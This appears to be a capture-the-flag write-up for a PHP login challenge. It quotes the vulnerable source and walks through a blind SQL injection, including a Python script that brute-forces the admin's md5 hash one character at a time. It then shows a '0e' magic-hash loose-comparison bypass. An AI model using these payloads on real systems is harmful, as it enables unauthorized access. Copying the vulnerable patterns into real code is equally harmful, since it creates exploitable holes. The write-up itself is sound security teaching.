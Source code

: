 ![description](images/description.png)

We're given the link to a login form, and the name of the user that we're trying to log in as. On the login page, we're given the source code for the login feature.

![login page](images/page.png)

```php

<html>
<head>
<title>The Wall</title>
</head>
<body>
<?php
include 'flag.php';

if(isset($_REQUEST['life'])&&isset($_REQUEST['soul'])){
    $username = $_REQUEST['life'];
    $password = $_REQUEST['soul'];

    if(!(is_string($username)&&is_string($password))){
        header( "refresh:1;url=login.html");
        die("You are not allowed south of wall");
    }

    $password = md5($password);
    
    include 'connection.php';
    /*CREATE TABLE IF NOT EXISTS users(id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,role TEXT)*/

    $message = "";
    if(preg_match('/(union|\|)/i', $username)){
        $message="Dead work alone not in UNIONs"."</br>";
        echo $message;
        die();
    }
    $query = "SELECT * FROM users WHERE username='$username'";
    $result = $pdo->query($query);
    $users = $result->fetchArray(SQLITE3_ASSOC);

    if($users) {
        if($password == $users['password']){
            if($users['role']=="admin"){
                echo "Here is your flag: $flag";
            }elseif($users['role']=="normal"){
                $message = "Welcome, ".$users['users']."</br>";
                $message.= "Unfortunately, only Lord Commander can access flag";
            }else{
                $message = "What did you do?";
            }
        }
        else{
            $message = "Wrong identity for : ".$users['username'];
        }

    }
    else{
        $message = "No such person exists"."<br>";
    }
    echo $message;
}else{
    header( "refresh:1;url=login.html");
    die("Only living can cross The Wall");
}
?>

</body>
</html>

```

By looking at the php, we can see that there's a classic example of an SQL injection vulnerability in the following code:

```php
    $query = "SELECT * FROM users WHERE username='$username'";
    $result = $pdo->query($query);
    $users = $result->fetchArray(SQLITE3_ASSOC);
```

If we insert a username containing a ', we can end the where clause and insert our own SQL commands into the query.

Normally at this point, I'd try to pull information out of the database using the UNION command, but the php code filters any form of "union" in the input, so we need to find a different way.

By messing around with the login form and looking at the source code, we noticed that we get different outputs depending on whether or not the SELECT statement returned at least 1 user. When the SELECT statement finds a user, and we give the wrong password, we get an output of "Wrong identity for : ".$users['username'], but when we don't find a valid user we get an output of "No such person exists". As such, we can insert code into the SQL query that will cause the SELECT to only return a user conditional on some information about their password. 

The way we did this is by adding onto the WHERE clause: we used a username of the form "LordCommander' AND password LIKE 'a%", in order to find whether or not the password starts with an a. When inserted into the SQL query string, the query becomes: 

```sql
"SELECT * FROM users WHERE username='LordCommander' AND password LIKE 'a%'"
```

This test can be done for all of the characters in the set "01234567890abcdef" (since the stored value is an md5 hash) to find what character the password starts with, and this process can be repeated for every character of the password. Since we only have to guess 16 times at most per character of the password, this can be done very quickly.

To automate this, we wrote a quick python script that uses the requests library to interact with the website:

```python
import requests
import string

url = 'http://163.172.176.29/WALL/index.php'

response = ''
sofar = ''
while True:
    done = 1
    for char in "0123456789abcdef":
        print(char)
        params = {'life':'LordCommander\' AND password LIKE \''+ sofar + char + '%', 'soul':''}
        r = requests.post(url, data=params)

        if "Wrong identity" in r.text:
            sofar += char
            print("sofar=", sofar)
            done = 0
            break
    if done == 1:
        break
print sofar

```

Running the script gets us the md5 hash of the password: 0e565041023046045310587974628079

Running the hash through online hash crackers doesn't find anything. By looking back at the source code, we can see that the hashes are compared with the == operator:

```php
if($password == $users['password'])
```

The double equals operator is notoriously bad, and there's a fairly well known vulnerability with the operator in that two strings starting with "0e" will always compare as true. This is because the == operator does automatic type casting, and considers strings of the form "0exxxxxx" to be the same as the integer 0 * e^{xxxxxx}. Therefore when two strings starting with "0e" are compared, they both get casted to the integer 0, and the comparison will always evaluate to true.

By googling "0e php hash vulnerability", we can find another string whose hash starts with "0e" (I used the string "240610708"). By entering this as the password, we'll get past the password check, and will log in as the admin. We were given the flag on the admin page.